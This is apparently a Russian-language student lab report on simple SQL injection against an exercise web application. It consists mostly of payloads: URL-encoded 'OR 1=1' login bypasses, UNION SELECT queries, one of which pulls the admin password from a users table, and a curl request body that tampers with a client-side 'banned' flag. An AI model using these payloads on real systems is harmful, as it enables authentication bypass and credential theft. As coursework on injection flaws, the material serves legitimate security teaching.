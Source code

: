 # Лабораторная работа 3
Примитивные SQL инъекции.

## Задание 1
### В исходниках найти "защиту" и обойти её двумя способами:
Можно войти под произвольным логином:
    %27 OR 1=1 union select %27logintest%27 order by 1 desc; --
Или использовать кодирование кавычек в альтернативный формат:
    %27 OR 1=1; --


## Задание 2
### Обойти клиентскую защиту с помощью ``curl``:
    --data-raw "name=MishaS&pass=qwerty12345asdfg&banned=true"

## Задание 3
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded).
    %27 or 1=1; --

## Задание 4
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД.
%27 union select pass from users where name = %27admin%27--